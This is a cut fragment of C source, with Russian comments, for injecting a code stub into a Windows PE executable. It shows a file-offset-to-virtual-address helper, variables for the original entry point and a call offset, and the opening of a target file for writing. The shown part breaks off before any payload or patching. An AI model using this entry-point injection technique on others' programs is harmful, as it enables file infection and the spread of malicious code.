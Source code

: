     }
}
void StubEnd(){}
 
// By Napalm
DWORD FileToVA(DWORD dwFileAddr, PIMAGE_NT_HEADERS pNtHeaders)
{
    PIMAGE_SECTION_HEADER lpSecHdr = (PIMAGE_SECTION_HEADER)((DWORD)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    for(WORD wSections = 0; wSections < pNtHeaders->FileHeader.NumberOfSections; wSections++){
        if(dwFileAddr >= lpSecHdr->PointerToRawData){
            if(dwFileAddr < (lpSecHdr->PointerToRawData + lpSecHdr->SizeOfRawData)){
                dwFileAddr -= lpSecHdr->PointerToRawData;
                dwFileAddr += (pNtHeaders->OptionalHeader.ImageBase + lpSecHdr->VirtualAddress);
                return dwFileAddr; 
            }
        }
        
        lpSecHdr++;
    }
     
    return NULL;
}
 
int main(int argc, char* argv[]) 
{    
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSection, pSectionHeader;
    HANDLE hFile, hFileMap;
    HMODULE hUser32;
    LPBYTE hMap;
 
    int i = 0, charcounter = 0;
    DWORD oepRva = 0, oep = 0, fsize = 0, writeOffset = 0, oepOffset = 0, callOffset = 0;
    unsigned char *stub;
     
    // вычисляем размер кода/стаба
    DWORD start  = (DWORD)StubStart;
    DWORD end    = (DWORD)StubEnd;
    DWORD stubLength = (end - start);
     
    if(argc != 2){
        printf("Usage: %s [file]\n", argv[0]);
        return 0;
    }
     
    // мапим файл
    hFile = CreateFile(argv[1], GENERIC_WRITE | GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, 
                        NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE){
        printf("[-] Cannot open %s\n", argv[1]);
        return 0;
    }
     